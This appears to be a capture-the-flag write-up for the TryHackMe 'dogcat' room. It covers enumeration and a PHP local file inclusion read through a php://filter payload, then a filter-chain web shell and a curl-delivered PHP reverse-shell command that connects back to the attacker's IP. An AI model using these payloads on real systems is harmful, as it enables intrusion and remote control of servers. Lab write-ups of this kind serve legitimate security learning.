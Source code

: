 # dogcat

https://tryhackme.com/room/dogcat

## Scan

We discover 2 ports (ssh and http)

![image](https://github.com/Roqlane/writeups/assets/78229498/0706358e-69c6-4d42-a1a3-a10ea209d386)

## Website

![image](https://github.com/Roqlane/writeups/assets/78229498/06bd7de1-dbd0-4c61-abeb-57df39a69a12)

So this is a site where you can see pictures of dogs and cats. Pretty nice! I am thinking of just looking at them instead of completing the chall XD

Hmmmm interesting result, seems like we got an lfi.

![image](https://github.com/Roqlane/writeups/assets/78229498/4673de48-4870-42c0-ad2e-173105a7a334)

This LFI is pretty tricky, I think the code behind it is like so:

`include ($file . ".php")`

To get the first flag, I first needed to perform an enum using gobuster:

`gobuster dir -u "http://10.10.242.241" -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php, .txt`

Then I discovered that there is a flag.php file. I tried to access it but it didn't print out any results. So we need a way to get its content. For that I use a payload form that article https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md.

Put it on practice: 

`http://10.10.17.47/?view=php://filter/convert.base64-encode/resource=cats/../../../../var/www/html/flag`

Got a base64 response so I used cyberchef to decode it

![image](https://github.com/Roqlane/writeups/assets/78229498/41946361-1ec4-4313-8a4a-9c80952ac182)

## Web shell

Now we to use another wrapper to execute shell commands. After some search, I found that I could use the filter wrapper and this python script to make the exploit https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

![image](https://github.com/Roqlane/writeups/assets/78229498/029728ae-1bef-4cd0-8828-0363ed980874)

Execute `ls%20..%2F` on the cmd param and you found out that there is the second flag

![image](https://github.com/Roqlane/writeups/assets/78229498/bc106a42-7a8e-4b8a-af42-a2b526eda277)

![image](https://github.com/Roqlane/writeups/assets/78229498/1ce01b76-9738-4661-b1d3-e9dc2d061995)

## Reverse shell

`curl --user-agent "PENTEST" "http://10.10.17.47/?view=php://filter/$FILTERS/resource=cat&cmd=php%20-r%20'%24sock%3Dfsockopen(%2210.9.164.243%22%2C6969)%3Bexec(%22sh%20%3C%263%20%3E%263%202%3E%263%22)%3B'" --output result`

![image](https://github.com/Roqlane/writeups/assets/78229498/2fe4aa6a-e835-4bd8-aedd-88a0c4fc328e)

## privesc

Well...

![image](https://github.com/Roqlane/writeups/assets/78229498/a4c4198b-a6e0-4ab8-921a-b20e20f2ccca)

![image](https://github.com/Roqlane/writeups/assets/78229498/b8083628-f747-46d3-841c-574ed560bbd6)

If I remember well, we are in a docker container

